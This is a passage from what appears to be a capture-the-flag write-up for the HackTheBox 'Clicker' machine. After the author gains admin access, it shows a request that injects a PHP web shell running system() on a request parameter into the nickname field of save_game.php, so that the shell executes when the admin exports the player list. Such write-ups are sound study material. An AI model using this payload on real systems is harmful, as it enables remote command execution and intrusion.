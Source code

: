 After sending it we will log out and log in again with our user:

![](./images/20230926230455.png)

We have admin access!

The admins portal only lets us to export the top players name, but the way it works that it get the player names, then load them, so if we injected some php codes there, it can be executed.

So we will send the following request:
```
http://clicker.htb/save_game.php?nickname=clicks=100000000&%3C%3fphp+system($_REQUEST[%27cmd%27])%3b+%3f%3E
```
We are injecting some php code into the nickname which should be shown later in the top player list when exporting.


Doing in burp like so:


![](./images/20230927122326.png)
